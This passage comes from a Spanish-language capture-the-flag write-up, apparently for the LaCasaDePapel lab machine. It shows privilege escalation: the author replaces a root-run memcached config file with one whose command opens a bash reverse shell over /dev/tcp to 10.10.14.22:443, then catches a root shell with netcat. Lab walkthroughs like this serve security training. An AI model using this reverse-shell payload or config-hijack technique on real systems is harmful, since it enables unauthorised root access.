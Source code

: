 ```bash
lacasadepapel [~]$ ls /home/professor
memcached.ini  memcached.js  node_modules

lacasadepapel [~]$ ps faux | grep -vE "accountsservice|firefox|VBox|]|libexec|systemd|wpa_supplicant|containerd|NetworkManager|gunicorn"
 3151 memcache  0:25 /usr/bin/memcached -d -p 11211 -U 11211 -l 127.0.0.1 -m 64 -c 1024 -u memcached -P /var/run/memcached/memcached-11211.pid

lacasadepapel [~]$ ls -l
-rw-r--r-- 1 root root        88 Jan 29  2019 memcached.ini
-rw-r----- 1 root nobody     434 Jan 29  2019 memcached.js
drwxr-sr-x 9 root professor 4096 Oct  3  2022 node_modules

lacasadepapel [~]$ echo -e "test" > memcached.ini
-ash: cant create memcached.ini: Permission denied
```

No podemos editar directamente el archivo `memechached.ini` porque no tenemos permisos, pero si podemos editarlo de otra manera
```bash
lacasadepapel [~]$ mv memcached.ini /tmp/

lacasadepapel [~]$ ls
memcached.js  node_modules

lacasadepapel [~]$ echo -e "[program:memcached]\ncommand = bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'" > memcached.ini
```
Esperamos un poco y recibimos una shell

```bash
$: sudo nc -nlvp 443
[sudo] password for jessica:
listening on [any] 443 ...
iconnect to [10.10.14.22] from (UNKNOWN) [10.10.10.131] 55656
bash:cannot set terminal process group (31342): Not a tty
bash: no job control in this shell
bash-4.4# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
bash-4.4#
```
